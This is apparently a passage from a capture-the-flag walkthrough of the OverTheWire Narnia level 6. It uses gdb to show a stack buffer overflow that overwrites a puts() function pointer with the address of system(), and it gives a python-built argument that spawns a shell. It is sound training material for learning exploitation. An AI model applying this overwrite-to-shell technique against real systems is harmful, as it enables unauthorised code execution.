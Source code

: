 ```nasm
Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x41414141
0xffffd688:	0x08048700	0x08048430	0x00000003	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb)
(gdb) x/x $eax
0x8048430 <puts@plt>:	0x99c825ff
```

Here, we can see our arguments **AAAA** (`0x41414141`) and **BBBB** (`0x42424242`). Also, we can see the pointer to the *puts()* function contained in **EAX** (`0x8048430`). The address of *puts()* is higher on the stack so, we should be able to overwrite it. Let's try...

```nasm
(gdb) run AAAAAAAACCCC BBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 AAAAAAAACCCC BBBB

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x41414141
0xffffd688:	0x41414141	0x43434343	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) x/x $eax
0x43434343:	Cannot access memory at address 0x43434343
```

Looks very good ! Now, the idea would be to overwrite the return address with the address of *system()* and call a shell.

```nasm
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) run $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x413b6873
0xffffd688:	0x41414141	0xf7e4c850	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) continue
Continuing.
$
```
